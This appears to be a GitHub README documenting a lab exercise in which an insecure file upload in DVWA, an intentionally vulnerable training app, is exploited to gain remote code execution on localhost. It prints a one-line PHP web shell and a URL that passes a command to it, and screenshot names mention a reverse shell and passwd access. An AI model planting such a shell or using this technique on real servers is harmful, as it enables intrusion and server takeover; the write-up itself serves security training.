


# 💀 DVWA File Upload → Remote Code Execution (RCE)

## 👨‍💻 Author
Lewis Joseph Feik

---

## 📌 Overview
This project demonstrates exploitation of an insecure file upload vulnerability in DVWA leading to **Remote Code Execution (RCE)**.

---

## 🛠️ Lab Environment
• Kali Linux (UTM)  
• Apache Web Server  
• PHP  
• DVWA (Damn Vulnerable Web Application)  

---

## ⚔️ Exploitation Process

### 1. Identify File Upload Vulnerability
DVWA allows file uploads without proper validation.

### 2. Create Web Shell
```php
<?php system($_GET['cmd']); ?>
```

### 3. Upload Malicious File
Uploaded `shell.php` through DVWA upload page.

### 4. Execute Commands
http://127.0.0.1/dvwa/hackable/uploads/shell.php?cmd=whoami

---

## 🎯 Results

### Command Execution


Output:
www-data

---

### System File Access


---

## 📸 Screenshots Included
• Screenshot 2026-04-09 at 11.13.32 PM.png
• Screenshot 2026-04-09 at 11.28.29 PM.png
• Screenshot 2026-04-09 at 11.30.37 PM.png
• Screenshot 2026-04-09 at 11.36.54 PM.png
• Screenshot 2026-04-09 at 11.47.30 PM.png
• Screenshot 2026-04-09 at 11.50.36 PM.png
• Screenshot 2026-04-09 at 11.54.37 PM.png
• Screenshot 2026-04-10 at 12.01.15 AM.png
• Screenshot 2026-04-10 at 12.21.48 AM.png
• Screenshot 2026-04-10 at 12.27.43 AM.png
• Screenshot 2026-04-10 at 12.30.40 AM.png
• Screenshot 2026-04-10 at 12.34.24 AM.png
• Screenshot 2026-04-10 at 12.37.56 AM.png
• Screenshot 2026-04-10 at 12.40.50 AM.png
• Screenshot 2026-04-10 at 12.41.55 AM.png
• Screenshot 2026-04-10 at 12.44.14 AM.png
• Screenshot 2026-04-10 at 12.46.54 AM.png
• Screenshot 2026-04-10 at 12.51.27 AM.png
• Screenshot 2026-04-10 at 12.53.06 AM.png
• Screenshot 2026-04-10 at 12.54.59 AM.png
• Screenshot 2026-04-12 at 10.00.11 PM.png
• Screenshot 2026-04-12 at 10.06.59 PM.png
• Screenshot 2026-04-12 at 10.10.32 PM.png
• Screenshot 2026-04-12 at 10.13.32 PM.png
• Screenshot 2026-04-12 at 10.21.02 PM.png
• Screenshot 2026-04-12 at 10.23.56 PM.png
• Screenshot 2026-04-12 at 10.25.32 PM.png
• Screenshot 2026-04-12 at 10.27.03 PM.png
• Screenshot 2026-04-12 at 10.28.51 PM.png
• Screenshot 2026-04-12 at 10.39.57 PM.png
• Screenshot 2026-04-12 at 10.42.57 PM.png
• Screenshot 2026-04-12 at 10.43.49 PM.png
• Screenshot 2026-04-12 at 10.57.14 PM.png
• Screenshot 2026-04-12 at 11.09.24 PM.png
• Screenshot 2026-04-12 at 11.11.50 PM.png
• Screenshot 2026-04-12 at 11.15.08 PM.png
• Screenshot 2026-04-12 at 11.46.00 PM.png
• Screenshot 2026-04-12 at 11.47.12 PM.png
• Screenshot 2026-04-12 at 11.49.06 PM.png
• Screenshot 2026-04-12 at 11.55.14 PM.png
• Screenshot 2026-04-12 at 11.57.03 PM.png
• Screenshot 2026-04-12 at 8.25.19 PM.png
• Screenshot 2026-04-12 at 8.28.39 PM.png
• Screenshot 2026-04-12 at 8.42.41 PM.png
• Screenshot 2026-04-12 at 8.43.53 PM.png
• Screenshot 2026-04-12 at 8.54.39 PM.png
• Screenshot 2026-04-12 at 8.55.42 PM.png
• Screenshot 2026-04-12 at 8.57.32 PM.png
• Screenshot 2026-04-12 at 9.01.17 PM.png
• Screenshot 2026-04-12 at 9.04.46 PM.png
• Screenshot 2026-04-12 at 9.09.34 PM.png
• Screenshot 2026-04-12 at 9.18.20 PM.png
• Screenshot 2026-04-12 at 9.21.15 PM.png
• Screenshot 2026-04-12 at 9.22.55 PM.png
• Screenshot 2026-04-12 at 9.24.42 PM.png
• Screenshot 2026-04-12 at 9.27.01 PM.png
• Screenshot 2026-04-12 at 9.28.09 PM.png
• Screenshot 2026-04-12 at 9.30.37 PM.png
• Screenshot 2026-04-12 at 9.33.46 PM.png
• Screenshot 2026-04-12 at 9.36.04 PM.png
• Screenshot 2026-04-12 at 9.40.38 PM.png
• Screenshot 2026-04-12 at 9.44.37 PM.png
• Screenshot 2026-04-12 at 9.52.13 PM.png
• Screenshot 2026-04-12 at 9.53.53 PM.png
• Screenshot 2026-04-12 at 9.56.40 PM.png
• Screenshot 2026-04-12 at 9.58.33 PM.png
• Screenshot 2026-04-13 at 12.19.12 AM.png
• Screenshot 2026-04-13 at 12.20.08 AM.png
• Screenshot 2026-04-13 at 12.20.36 AM.png
• Screenshot 2026-04-13 at 12.20.58 AM.png
• Screenshot 2026-04-13 at 12.21.24 AM.png
• Screenshot 2026-04-13 at 12.21.38 AM.png
• Screenshot 2026-04-13 at 12.23.02 AM.png
• Screenshot 2026-04-14 at 2.36.58 PM.png
• Screenshot 2026-04-14 at 2.45.50 PM.png
• Screenshot 2026-04-14 at 2.47.52 PM.png
• Screenshot 2026-04-14 at 2.48.50 PM.png
• Screenshot 2026-04-14 at 2.50.11 PM.png
• Screenshot 2026-04-14 at 2.52.08 PM.png
• Screenshot 2026-04-14 at 2.55.51 PM.png
• Screenshot 2026-04-14 at 3.04.48 PM.png
• Screenshot 2026-04-14 at 3.12.30 PM.png
• file-upload-page.png
• file-upload-success.png
• kali-ip.png
• listener-start.png
• passwd-file.png
• reverse-shell-listener.png
• shell-command-execution.png
• stored-xss-cookie.png
• stored-xss-exploit.png
• stored-xss-page.png
• stored-xss-persistent.png

---

## 💥 Impact
• Remote command execution  
• Access to sensitive system files  
• Full server compromise potential  

---

## 🧠 Skills Demonstrated
• Web Application Security  
• File Upload Exploitation  
• Remote Code Execution (RCE)  
• Linux Command Execution  
• Post-Exploitation Enumeration  

---

## ⚠️ Disclaimer
For educational purposes only in controlled lab environments.
